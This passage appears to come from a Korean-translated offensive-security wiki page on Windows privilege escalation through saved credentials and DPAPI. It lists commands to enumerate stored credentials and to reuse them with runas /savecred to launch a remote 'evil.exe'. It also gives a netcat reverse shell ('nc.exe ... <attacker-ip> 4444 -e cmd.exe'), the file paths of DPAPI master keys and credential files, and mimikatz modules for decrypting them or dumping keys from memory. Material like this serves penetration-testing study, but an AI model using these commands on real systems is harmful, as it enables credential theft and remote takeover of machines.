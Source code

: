애플리케이션이 자격 증명 관리자와 상호 작용하지 않는 한, 특정 자원에 대한 자격 증명을 사용하는 것은 불가능하다고 생각합니다. 따라서 애플리케이션이 금고를 사용하려면 **자격 증명 관리자와 통신하여 해당 자원에 대한 자격 증명을 기본 저장 금고에서 요청해야** 합니다.

`cmdkey`를 사용하여 머신에 저장된 자격 증명을 나열합니다.
```bash
cmdkey /list
Currently stored credentials:
Target: Domain:interactive=WORKGROUP\Administrator
Type: Domain Password
User: WORKGROUP\Administrator
```
그런 다음 저장된 자격 증명을 사용하기 위해 `/savecred` 옵션과 함께 `runas`를 사용할 수 있습니다. 다음 예제는 SMB 공유를 통해 원격 바이너리를 호출하는 것입니다.
```bash
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
```
`runas`를 제공된 자격 증명과 함께 사용합니다.
```bash
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```
Note that mimikatz, lazagne, [credentialfileview](https://www.nirsoft.net/utils/credentials\_file\_view.html), [VaultPasswordView](https://www.nirsoft.net/utils/vault\_password\_view.html), or from [Empire Powershells module](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/credentials/dumpCredStore.ps1).

### DPAPI

**데이터 보호 API (DPAPI)**는 데이터의 대칭 암호화를 위한 방법을 제공하며, 주로 Windows 운영 체제 내에서 비대칭 개인 키의 대칭 암호화에 사용됩니다. 이 암호화는 사용자 또는 시스템 비밀을 활용하여 엔트로피에 크게 기여합니다.

**DPAPI는 사용자의 로그인 비밀에서 파생된 대칭 키를 통해 키의 암호화를 가능하게 합니다**. 시스템 암호화가 포함된 시나리오에서는 시스템의 도메인 인증 비밀을 사용합니다.

DPAPI를 사용하여 암호화된 사용자 RSA 키는 `%APPDATA%\Microsoft\Protect\{SID}` 디렉토리에 저장되며, 여기서 `{SID}`는 사용자의 [보안 식별자](https://en.wikipedia.org/wiki/Security\_Identifier)를 나타냅니다. **DPAPI 키는 사용자의 개인 키를 보호하는 마스터 키와 동일한 파일에 함께 위치하며**, 일반적으로 64바이트의 임의 데이터로 구성됩니다. (이 디렉토리에 대한 접근은 제한되어 있어 CMD의 `dir` 명령어로 내용을 나열할 수 없지만, PowerShell을 통해 나열할 수 있습니다).
```powershell
Get-ChildItem  C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem  C:\Users\USER\AppData\Local\Microsoft\Protect\
```
You can use **mimikatz module** `dpapi::masterkey` with the appropriate arguments (`/pvk` or `/rpc`) to decrypt it.

The **credentials files protected by the master password** are usually located in:
```powershell
dir C:\Users\username\AppData\Local\Microsoft\Credentials\
dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```
You can use **mimikatz module** `dpapi::cred` with the appropiate `/masterkey` to decrypt.\
You can **extract many DPAPI** **masterkeys** from **memory** with the `sekurlsa::dpapi` module (if you are root).

{% content-ref url="dpapi-extracting-passwords.md" %}
[dpapi-extracting-passwords.md](dpapi-extracting-passwords.md)
{% endcontent-ref %}
